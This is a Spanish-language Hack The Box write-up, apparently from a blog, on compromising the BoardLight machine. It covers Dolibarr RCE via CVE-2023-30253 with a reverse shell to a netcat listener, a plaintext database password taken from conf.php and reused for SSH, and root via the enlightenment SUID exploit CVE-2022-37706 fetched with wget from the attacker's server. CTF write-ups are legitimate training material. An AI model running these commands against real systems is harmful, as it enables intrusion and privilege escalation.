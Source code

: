 ```yaml
---
title: BoardLight
description: Boardlight es una máquina de dificultad fácil que cuenta con una instancia de dolibarr vulnerable a CVE-2023-30253. Esta vulnerabilidad se aprovecha para obtener acceso como www-data. Después de enumerar y volcar el contenido del archivo de configuración web, se encuentran las credenciales en texto plano que conducen al acceso ssh de la máquina. Al enumerar el sistema, se identifica un binario SUID relacionado con enlightenment que es vulnerable a una escalada de privilegios a través de CVE-2022-37706 y puede ser explotado para obtener un shell con privilegios de root.
date: 2024-06-03
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-boardlight/boardlight_logo.png
categories:
  - Hack The Box
  - Machines
tags:
  - linux
  - hack the box
  - fuzzing web
  - rce
  - cve
  - data leaks
  - misconfigurations
  - suid
  - ssh
  - http
  - tcp
  - information gathering
  - web analysis
  - cve exploitation
  - lateral movement
  - privilege escalation


---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG map1
Host: 10.10.11.11 ()	Status: Up
Host: 10.10.11.11 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///

/home/kali/Documents/htb/machines/boardlight:-$ sudo nmap -sCV -p22,80 -vvv -oG map2 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

![](/assets/img/htb-writeup-boardlight/boardlight1_1.png)

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ dirb http://10.10.11.11 /usr/share/wordlists//seclists/Discovery/DNS/subdomains-top1million-20000.txt
==> DIRECTORY: http://10.10.11.11/img/
==> DIRECTORY: http://10.10.11.11/css/
==> DIRECTORY: http://10.10.11.11/js/

/home/kali/Documents/htb/machines/boardlight:-$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![](/assets/img/htb-writeup-boardlight/boardlight1_2.png)

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ curl -s http://board.htb | wc -c
15949
```
El resultado '15949' indica que la respuesta de la página tiene 15,949 bytes.

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ ffuf -u http://board.htb -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ic -t 200 -c -fs 15949
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1328ms]
```
'fs 15949' filtra las respuestas por tamaño. En este caso, se filtran respuestas que tienen un tamaño de 15,949 bytes (el mismo tamaño que el de la página inicial).

El subdirectorio que se encontró 'crm' devuelve un código de estado HTTP 200 con un tamaño de 6360 bytes. El hecho de que el tamaño sea diferente al de la página inicial (15949 bytes) indica que este directorio tiene contenido distinto.

---
## Web Analysis & CVE Exploitation

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ echo '10.10.11.11\tboard.htb\tcrm.board.htb' | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-boardlight/boardlight2_1.png)

Antes de buscar vulnerabilidades para 'Dolibarr', pruebo autentificarme con credenciales por defecto.

El login resulta valido con 'user:admin', 'password:admin'.

![](/assets/img/htb-writeup-boardlight/boardlight2_2.png)

Dolibarr 17.0.0 es vulnerable a Remoted Code Execution.

<https://nvd.nist.gov/vuln/detail/CVE-2023-30253>

<https://github.com/Rubikcuv5/cve-2023-30253>

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ git clone https://github.com/Rubikcuv5/cve-2023-30253.git

/home/kali/Documents/htb/machines/boardlight:-$ nc -lnvp 4444
	listening on [any] 4444 ...

/home/kali/Documents/htb/machines/boardlight:-$ python3 CVE-2023-30253.py --url http://crm.board.htb/ -u admin -p admin -r 10.10.16.5 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

	... connect to [10.10.16.5] from (UNKNOWN) [10.10.11.11] 58436

www-data@boardlight:~$ whoami
www-data
```

---
## Lateral Movement

Despues de conseguir el foothold, enumero el sistema y encuentro la contraseña ssh para el usuario 'larissa'.
```terminal
www-data@boardlight:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```
```
www-data@boardlight:~/html/crm.board.htb$ find . -name \*conf\* 2>/dev/null
./htdocs/conf/conf.php

www-data@boardlight:~/html/crm.board.htb$ cat html/htdocs/conf/conf.php
$dolibarr_main_db_pass='serverfun2$2023!!';
```
```terminal
/home/kali/Documents/htb/machines/boardlight:-$ ssh larissa@10.10.11.11
larissa@10.10.11.11's password: serverfun2$2023!!

larissa@boardlight:~$ cat user.txt
```
---
## Privilege Escalation & CVE Exploitation

Listo privilegios SUID.

```terminal
larissa@boardlight:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
```
La version de 'enlightement' es vulnerable, CVE-2022-37706.

```terminal
larissa@boardlight:~$ dpkg -l | grep enlightenment
hi  enlightenment             0.23.1-4          amd64        X11 window manager based on EFL
hi  enlightenment-data        0.23.1-4          all          X11 window manager based on EFL - run time data files
```
Utilizo el siguiente exploit, <https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit>

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
/home/kali/Documents/htb/machines/boardlight:-$ python3 -m http.server 8001
```
```terminal
larissa@boardlight:/tmp$ wget http://10.10.16.5:8001/exploit.sh
larissa@boardlight:/tmp$ chmod +x exploit.sh
```
```terminal
larissa@boardlight:/tmp$ ./exploit.sh
```
![](/assets/img/htb-writeup-boardlight/boardlight3_1.png)

```terminal
python -c 'import pty;pty.spawn("/bin/bash")'
root@boardlight:~$ cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/608" target="_blank">Boardlight Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }